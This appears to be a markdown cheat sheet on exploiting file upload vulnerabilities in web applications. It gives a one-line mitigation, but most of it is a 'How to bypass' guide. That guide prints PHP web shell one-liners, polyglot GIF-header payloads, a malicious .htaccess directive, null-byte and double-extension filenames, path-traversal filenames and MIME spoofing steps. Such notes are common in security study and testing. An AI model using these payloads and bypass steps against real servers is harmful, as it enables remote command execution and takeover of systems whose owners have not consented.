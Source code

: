 ## File Upload Vulnerabilities

- **What:** Occurs when an app allows uploading files without proper validation. Attackers can upload malicious files (web shells, scripts) and run them on the server. Even if only images are intended, uploading a renamed script or SVG with JS can attack users (XSS).
    
- **Example attacks:**
    
    - **Web shell upload:** Upload `shell.php` containing code like `<?php system($_GET['cmd']); ?>` and then access it to execute commands. Similarly, upload `.jsp` or `.asp` shells if the server runs those platforms.
        
    - **Bypass filters:** If extensions are checked, use tricks like `shell.php.jpg` or `shell.php%00.png` to bypass a naive `.jpg` filter. If MIME is checked, override it to an innocuous type (e.g. send a PHP file with `Content-Type: image/jpeg`).
        
    - **DLL/script injection:** Uploading scripts that exploit the processing library (ImageTragick, etc.).
        
    - **Denial-of-Service:** Upload huge files or zip bombs to exhaust disk space.
        
- **Payloads:**
    
    - PHP shell file (`shell.php`) with typical one-liner webshell code.
        
    - Polyglot file: e.g. valid image header + hidden script.
        
    - HTML file with `<script>` or SVG with JavaScript to attack browsers.
        
- **Mitigation:** Restrict uploads to an allow-list of safe extensions; sanitize file names; store uploads outside the webroot or on a different domain; verify file contents (magic numbers). Set strict size limits.
    

## ✅ **How to bypass**

###  **1. Rename + Double Extension**

- Change the filename from `shell.php` → `shell.php.jpg`
###  **2. Fake the MIME type**

- When uploading via Burp Suite:
    
    - Intercept the request.
    - Find `Content-Type` in your `multipart/form-data` part.
    - Change it to `image/jpeg`.
    - Example:    
        `Content-Disposition: form-data; name="file"; filename="shell.php.jpg" Content-Type: image/jpeg`
        

---

###  **3. Add a fake image header**

Some servers do `getimagesize()` or similar checks.

- Prepend a fake image header:
    `GIF89a; <?php system($_GET['cmd']); ?>`
    
    or

    `<?php echo shell_exec($_GET['cmd']); ?>`
    
    or for JPEG:
    
    `ÿØÿà <?php ... ?>`
    

This tricks weak image validators.

---

###  **4. Null Byte Exploit** (Old, but worth testing)

If the server is using vulnerable old PHP:

- Upload as `shell.php%00.jpg`
    
- `%00` may terminate the filename string at `.php`.

Most modern PHP/NGINX setups patch this — but check anyway.

---

###  **5. Overwrite `.htaccess`**

If you can upload **ANY** file:

- Upload `.htaccess`:
        
    `AddType application/x-httpd-php .jpg`
    
    Now `shell.jpg` is treated as PHP when requested.
    
- Works only on Apache with `AllowOverride` enabled.
    

---

###  **6. Check for Path Traversal**

Some uploaders store files based on user input.

- Try uploading with paths:
    
    - `../../shell.php` as filename.
        
    - `..%2f..%2fshell.php`
        
- If you can break out of `/uploads/` to `/var/www/html/`, you win.
    

---

###  **7. Exploit Image Processing Bugs**

If exif data is not sanitized:

- Insert PHP in exif:
    
    - Use `exiftool` to write PHP code into `image description`.
        
    - On a vulnerable eval chain, the server might execute it.
        
    - Rare but real: Google “PHP exif shell”.
        

---
##  **If that fails**

- Try all extensions: `.php3`, `.php4`, `.phtml`, `.php5`
    
- Try `.php;.jpg`, `.php%20.jpg`
    
- Try `.phar` (some servers parse `.phar` as PHP)
    
- Try misconfigurations: `index.php` overwrites.
    

---
